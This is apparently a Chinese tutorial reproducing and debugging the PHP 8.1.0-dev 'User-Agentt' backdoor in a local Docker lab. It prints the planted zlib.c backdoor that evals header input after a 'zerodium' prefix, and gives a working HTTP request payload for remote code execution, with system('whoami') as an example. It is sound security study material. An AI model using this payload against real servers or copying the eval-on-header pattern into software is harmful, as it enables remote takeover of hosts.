





php 源码调试: php 8.1 backdoor 漏洞复现
===

## 漏洞简介

php 8.1-backdoor, 也就是 PHP 8.1.0-dev **User-Agentt 后门导致远程代码执行漏洞**。

## 搭建靶场

> Docker 一键复现靶场地址: [Github](https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor)

```bash
docker pull tuwen/phpsrc-debug:8.1-backdoor
```

构建:

```bash
docker run -it --rm --name debug -p 8080:8080 -p 2222:22 tuwen/phpsrc-debug:8.1-backdoor
```



## 远程调试准备

### 用 vscode 远程连接

用 vscode 远程连接 docker SSH, 在 vscode 中下载插件 `Remote - SSH`, 然后在其中输入连接指令:

> 在 docker 中 执行 `hostname -I` 以查询 ip 地址;

```bash
ssh -p2222 -i d:/Docker/images/php8_backdoor_src/private.key root@127.0.0.1
```

之后在 vscode 中远程连接, 会自动安装 docker 中的 vscode 客户端;

> 如果提示仍然需要输入密码, 应该是因为 windows 上的 `private.key` 秘钥权限过大, 需要改小, 选中秘钥属性, 将权限改为*所有者: 完全控制, SYSTEM: 读取*, 即可正常连接;



### 配置调试环境

接下来, 要安装 c/c++ 的调试环境:



安装后打开 `/usr/src/php` 选择 `Run and Debug`, 然后配置 `Cmake` - `launch.json`:

```json
{
    // Use IntelliSense to learn about possible attributes.
    // Hover to view descriptions of existing attributes.
    // For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
    "version": "0.2.0",
    "configurations": [
        {
            "name": "{gdb} Launch",
            "type": "cppdbg",
            "request": "launch",
            "program": "/usr/local/bin/php",
            "args": ["-S","0.0.0.0:8080","-t","/var/www/html"],
            "stopAtEntry": false,
            "cwd": "${workspaceFolder}",
            "environment": [],
            "externalConsole": false,
            "MIMode": "gdb",
            //"miDebuggerPath": "/usr/bin/gdb",
            "setupCommands": [
                {
                    "description": "Enable pretty-printing for gdb",
                    "text": "-enable-pretty-printing",
                    "ignoreFailures": true
                }
            ]
        }
    ]
}
```

之后在 ssh 中执行

```bash
echo '<?php echo "hello world"; ?>' > /var/www/html/index.php
```

然后访问地址: 



得到网站内容说明搭建成功;

## 复现调试

### 代码审计

后门的位置在 `ext/zlib/zlib.c:366`:

```c
if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) && (enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
    convert_to_string(enc);
    if (strstr(Z_STRVAL_P(enc), "zerodium")) {
        zend_try {
            zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
        } zend_end_try();
    }
}
```

- 注意前面这一串 `PG(http_globals)[TRACK_VARS_SERVER]` 实际上就对应 php web 请求中的 `$_SERVER[]` 超全局数组; 这行代码的含义是不论 `$_SERVER[]` 是否已解析, 只要其中含有 **`HTTP_USER_AGENTT`** 这项 (注意多了一个 `T`), 那么就会触发解析;

- 正常情况下 `$_SERVER[]` 等这类超全局数组是仅作为常量存在, 但是这段代码中使用了 `zend_eval_string`, 也就是会将这个项解析为代码并执行;

- 接下来会检查 **`HTTP_USER_AGENTT`** 是否含有 *`zerodium`* 这个前缀, 如果有, 则从前缀之后的一位开始解析执行;

### 漏洞复现

只需要注意, `zend_eval_string` 是按照 php 底层的 Zend 引擎实现的, 但只能解析 php 语句, 而不能解析 zend 语句; 例如, 可以执行 `var_dump()`, `highlight_file()`, 而 `zend_is_auto_global_str()` 则会报错;

因为 php 本身就是由 zend 封装完成, 其本身是一层 VM, 内部内容对外透明; 

搞明白了这一点, 直接改包复现:

```http
GET / HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
User-Agentt: zerodiumvar_dump(1+1);
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```



复现成功, 直接打印在了网页上; 这里可以放任何代码, 甚至 shell `zerodiumsystem('whoami');`。

## 扩展

上文提到, `zend_eval_string()` 执行的是 php 代码 (而非 zend), 这是 zend engine 的**语言级入口 (安全边界)**:

语言级入口 (安全边界: PHP 语法): 

- `zend_eval_string`
- `zend_compile_file`
- `zend_compile_string`

除此之外还有一种 zend 层面上的 `eval`:

引擎级入口 (内核/扩展: zend, c层):

- 构造 `zend_op_array`
- 调用 `zend_execute`
- 修改 `EG(opline_ptr)`

